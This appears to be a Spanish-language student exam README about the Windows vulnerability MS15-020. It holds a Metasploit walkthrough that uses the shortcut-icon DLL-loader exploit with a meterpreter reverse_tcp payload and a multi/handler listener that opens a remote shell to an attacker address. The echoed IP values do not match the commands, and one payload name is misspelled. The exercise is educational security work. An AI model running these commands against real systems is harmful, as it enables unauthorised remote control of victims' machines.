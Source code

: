 # ciberseguridad-2019-1
Repositorio para Ciberseguridad 2019-I
Parcial Ciberseguridad 2019-1 

Juan Esteban Monsalve Echeverry

Vulnerabilidad 

MS15-020: Una vulnerabilidad en Windows podría permitir la ejecución remota de código 

Las vulnerabilidades podrían permitir la ejecución remota de código si un atacante correctamente convence a un usuario visita un sitio web especialmente diseñado, abra un archivo especialmente diseñado o abrir un archivo en un directorio de trabajo que contiene un archivo DLL especialmente diseñado. 
Publicado: marzo 10, 2015

Sistema Operativo 
Windows XP, Windows 7 

Software 
Sistema opertativo: Kali Linux 
Herramienta: 
Metaexploit 

-----------------------------------------------------------------------------------------------------------
Instructivo 
-----------

msf > use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

msf exploit(ms15_020_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 

msf exploit(ms15_020_shortcut_icon_dllloader) > set lhost 10.191.5.5
lhost=> 192.168.0.11 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCHOST 10.191.5.6
UNCHOST => 192.168.0.10 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCSHARE share 
UNCSHARE => share 

msf exploit(ms15_020_shortcut_icon_dllloader) > exploit

----------------------------------------------------------------------------------------------------------
use exploit/multi/handler 

set payload windows/meterpreter/reverser_tcp 

set lhost 10.191.5.5

----------------------------------------------------------------------------------------------------------
Video Demo

https://youtu.be/oq0XCedmUwI

----------------------------------------------------------------------------------------------------------

Referencias

http://da1sy.cn/2018/05/MS15-020/
https://github.com/rapid7/metasploit-framework/pull/4911
https://www.rapid7.com/db/vulnerabilities/WINDOWS-HOTFIX-MS15-020
https://www.rapid7.com/db/modules/exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 
